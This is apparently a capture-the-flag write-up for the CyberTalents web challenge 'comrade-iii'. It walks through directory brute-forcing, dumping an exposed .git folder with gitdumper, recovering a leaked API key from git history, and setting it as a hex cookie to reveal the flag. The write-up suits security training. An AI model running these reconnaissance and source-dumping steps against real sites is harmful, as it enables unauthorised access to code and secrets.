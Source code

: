 # Solve comrade-iii
#### https://cybertalents.com/challenges/web/comrade-iii

![alt text](images/image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mk873o1muw3y0j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*


### Download all git files with gettools
1. dump all git files  
```bash
./gitdumper.sh http://wcamxwl32pue3e6mk873o1muw3y0j6zqdkgxu639-web.cybertalentslabs.com/.git/ /home/m_1337/CyberTalents/Web/comrade-iii/git
```
2. extract source files 
```bash
./extractor.sh /home/m_1337/CyberTalents/Web/comrade-iii/git /home/m_1337/CyberTalents/Web/comrade-iii/git
```

### Analyzing the source code
```php 
<?php
include('./access.php');
include('./index.php');
if($_COOKIE['api_key'] == $apikey) 
echo "Flag: $flag";
```
We need API key to view the flag
### Check git status
`git status`

![alt text](images/image-1.png)
Notice that api.php had been **removed**

### Check changes 
`git show`
![alt text](images/image-2.png)
So the api key = access 

access from [contact_process](Dumpedfiles/1/contact_process.php) `this_is_top_secret`
Convert it to hex `746869735f69735f746f705f736563726574`
Add it to the browser cookie with Name `api_key`

![alt text](images/image-3.png)

>Find More on ==> github.com/MedhatHassan 
